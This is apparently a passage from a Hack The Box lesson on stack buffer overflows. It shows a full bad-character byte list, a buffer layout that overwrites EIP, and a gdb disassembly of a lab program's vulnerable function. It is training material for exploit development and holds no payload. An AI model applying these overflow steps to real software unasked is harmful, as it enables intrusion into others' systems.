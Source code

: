 Character List

```shell-session
W4H33D@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

To calculate the number of bytes in our CHARS variable, we can use bash by replacing the "\x" with space and then use `wc` to count the words.

#### Calculate CHARS Length

Calculate CHARS Length

```shell-session
W4H33D@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256
```

This string is `256` bytes long. So we need to calculate our buffer again.

#### Notes

Notes

```shell-session
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Now let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So we will set a breakpoint at the corresponding function so that the execution stops at this point, and we can analyze the memory's content.

Notes

```shell-session
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>: 	lea    ecx,[esp+0x4]
   0x56555586 <+4>: 	and    esp,0xfffffff0
   0x56555589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:	push   ebp
   0x5655558d <+11>:	mov    ebp,esp
   0x5655558f <+13>:	push   ebx
   0x56555590 <+14>:	push   ecx
   0x56555591 <+15>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:	add    ebx,0x1a3e
   0x5655559c <+26>:	mov    eax,ecx
   0x5655559e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:	add    eax,0x4
   0x565555a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:	sub    esp,0xc
   0x565555a9 <+39>:	push   eax
   0x565555aa <+40>:	call   0x5655554d <bowfunc>		# <---- bowfunc Function
   0x565555af <+45>:	add    esp,0x10
   0x565555b2 <+48>:	sub    esp,0xc
   0x565555b5 <+51>:	lea    eax,[ebx-0x1974]
```